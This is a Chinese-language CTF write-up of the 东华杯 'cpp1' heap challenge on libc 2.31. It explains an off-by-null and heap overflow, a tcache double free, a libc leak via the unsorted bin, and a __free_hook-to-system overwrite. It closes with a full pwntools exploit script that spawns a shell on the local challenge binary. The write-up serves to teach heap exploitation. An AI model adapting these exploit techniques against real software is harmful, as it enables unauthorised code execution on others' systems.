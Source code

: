 ```yaml
---
layout: post
title: "东华杯-pwn-cpp1"
date: 2021-11-11
tags: [Pwn]
comments: true
author: JumpWang

---
```


从自己的csdn搬来的，还带着水印，懒得弄了（）

前一阵子东华杯的pwn题，比赛时候没做出来，说起来那时候我才刚学到fastbin attack，天天在和libc2.23打交道，比赛的时候时候看见libc全是2.31的......孩子人都傻了，遂去misc划水。。。~~（r n m,退钱！）~~

现在终于看了tcache，寻思试一下之前的赛题，于是有了这篇博客，做起来发现，好像并没有那么难？

我本地的环境就是2.31的，所以就在本地尝试复现了一下，文件已经传到了网盘，想复现的师傅们可以[在这里下载](https://pan.baidu.com/s/1c351qD3H6Lssrg1x8gT1Cg) 
提取码：xymi

## 分析
### main函数如下
![在这里插入图片描述](https://img-blog.csdnimg.cn/86eaf8c9500a453e8f384a646e91e991.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6ZW_5Lqt5LiA5qKm,size_20,color_FFFFFF,t_70,g_se,x_16)
### 菜单
![在这里插入图片描述](https://img-blog.csdnimg.cn/64b44ba4c64b4c58a3de84dba91c6d30.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6ZW_5Lqt5LiA5qKm,size_20,color_FFFFFF,t_70,g_se,x_16)
### new
new中允许自定义index（0 <= index <= 16）和size（size < 0xff），并不填充内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/44143c4a80064015bf3cb04f441b7ad9.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6ZW_5Lqt5LiA5qKm,size_20,color_FFFFFF,t_70,g_se,x_16)
### change
漏洞点在这里，change中指定index填充内容，但是不对内容长度做检查，存在堆溢出，其中cin会在字符串末尾自动添加'\0'，可以off-by-null
![在这里插入图片描述](https://img-blog.csdnimg.cn/0ce67f6d9d334cf1bb8a578fee9e372c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6ZW_5Lqt5LiA5qKm,size_20,color_FFFFFF,t_70,g_se,x_16)
### show
show可以打印堆块内容，可以用来泄露
![在这里插入图片描述](https://img-blog.csdnimg.cn/76b2e342755645d696f2dbec020351de.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6ZW_5Lqt5LiA5qKm,size_20,color_FFFFFF,t_70,g_se,x_16)
### delete
![在这里插入图片描述](https://img-blog.csdnimg.cn/fc2cd856622241a5ac167055dd07e665.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6ZW_5Lqt5LiA5qKm,size_20,color_FFFFFF,t_70,g_se,x_16)
## 利用
通过利用tcache的不严谨和off-by-null，我们可以制造出`double free`的情况，在此基础上，将特定大小的tcache填充满（一般是七个）之后【这里是绕过tcache】，新free的small bin大小的堆块将会首先被放到unsorted bin中，利用unsorted bin的`双向循环链表`的特性，当其中只有一个堆块时，它的fd和bk指针都会指向链表头也就是unsorted bin，此时就可以通过`show`来泄露libc基址
然后就是非常简单的了，利用堆溢出修改tcache链表中的fd指针，就可以申请到`__free_hook`，通过change修改成system，，再向可控堆块内写入'/bin/sh\x00'，就大功告成了
这里不得不说，tcache的检查实在是太松散了，连堆块大小都不检查的，比fastbin舒服多了（）

## 详解
首先申请五个堆块
这里chunk0的作用是让chunk1的用户操作段起始地址（即chunk1+0x10）末位为'\x00'，方便一会off-by-null，以后也不会再用到，index就申请为16了
```python
new(b'16', b'48')   # chunk0
new(b'0', b'144')    # chunk1
new(b'1', b'16')    # chunk2
new(b'2', b'16')    # chunk3
new(b'3', b'16')    # chunk4
```
删除index 2、1，
此时 tcache -> chunk2 -> chunk3 -> null
```python3
delete(b'2')
delete(b'1')
```
off-by-null 部分写chunk2的fd
此时tcache -> chunk2 -> chunk1
```python3
change(b'0', b'\x00' * 0x98 + p64(0x21))
```
再连续申请两次，构造出double free，tcache清空
```python3
# double free idx 0 and idx 5
new(b'4', b'16')    # chunk2
new(b'5', b'16')    # chunk1
```
塞满tcache
tcache -> index6 -> 7 ->8 -> 9 -> 10 -> 11 -> 12
```python3
new(b'6', b'144')
new(b'7', b'144')
new(b'8', b'144')
new(b'9', b'144')
new(b'10', b'144')
new(b'11', b'144')
new(b'12', b'144')

delete(b'12')
delete(b'11')
delete(b'10')
delete(b'9')
delete(b'8')
delete(b'7')
delete(b'6')
```
泄露libc
```python3
delete(b'0')
show(b'5')
main_arena = u64(io.recvline()[:-1].ljust(8, b'\x00'))
print('main_arena -> ' + hex(main_arena))

libc_addr = main_arena - 0x1ebb80 - 96
print('libc_addr -> ' + hex(libc_addr))
```
申请到`__free_hook`
先改tcache为
tchche -> 6 -> `__free_hook`
 再连续申请两次
```python3
hook = libc.symbols['__free_hook'] + libc_addr
sys = libc.symbols['system'] + libc_addr

change(b'3', p64(0) * 3 + p64(0xa1) + p64(hook))

# 申请到free_hook的地址
new(b'6', b'144')
new(b'7', b'144')
```
getshell
```python3
change(b'7', p64(sys))
change(b'6', b'/bin/sh\x00')

delete(b'6')
```

## 完整exp
```python3
from pwn import *

context(log_level = 'debug', arch = 'amd64', os = 'linux')

io = process('./dh_pwn')

# gdb.attach(io)

elf = ELF('./dh_pwn')
libc = ELF('./libc.so.6')


def new(idx, size):
    io.recvuntil(b'>>\n')
    io.sendline(b'1')
    io.recvuntil(b'I:>>\n')
    io.sendline(idx)
    io.recvuntil(b'S:>>\n')
    io.sendline(size)


def change(idx, content):
    io.recvuntil(b'>>\n')
    io.sendline(b'2')
    io.recvuntil(b'I:>>\n')
    io.sendline(idx)
    io.recvuntil(b'V:>>\n')
    io.sendline(content)


def show(idx):
    io.recvuntil(b'>>\n')
    io.sendline(b'3')
    io.recvuntil(b'I:>>\n')
    io.sendline(idx)


def delete(idx):
    io.recvuntil(b'>>\n')
    io.sendline(b'4')
    io.recvuntil(b'I:>>\n')
    io.sendline(idx)

new(b'16', b'48')   # chunk0
new(b'0', b'144')    # chunk1
new(b'1', b'16')    # chunk2
new(b'2', b'16')    # chunk3
new(b'3', b'16')    # chunk4

delete(b'2')
delete(b'1')
change(b'0', b'\x00' * 0x98 + p64(0x21))

# double free idx 0 and idx 5
new(b'4', b'16')    # chunk2
new(b'5', b'16')    # chunk1

new(b'6', b'144')
new(b'7', b'144')
new(b'8', b'144')
new(b'9', b'144')
new(b'10', b'144')
new(b'11', b'144')
new(b'12', b'144')

delete(b'12')
delete(b'11')
delete(b'10')
delete(b'9')
delete(b'8')
delete(b'7')
delete(b'6')

delete(b'0')
show(b'5')
main_arena = u64(io.recvline()[:-1].ljust(8, b'\x00'))
print('main_arena -> ' + hex(main_arena))

libc_addr = main_arena - 0x1ebb80 - 96
print('libc_addr -> ' + hex(libc_addr))

hook = libc.symbols['__free_hook'] + libc_addr
sys = libc.symbols['system'] + libc_addr

change(b'3', p64(0) * 3 + p64(0xa1) + p64(hook))

# 申请到free_hook的地址
new(b'6', b'144')
new(b'7', b'144')

# onegad = libc_addr + 0xe6e76
change(b'7', p64(sys))
change(b'6', b'/bin/sh\x00')

delete(b'6')

io.interactive()

```
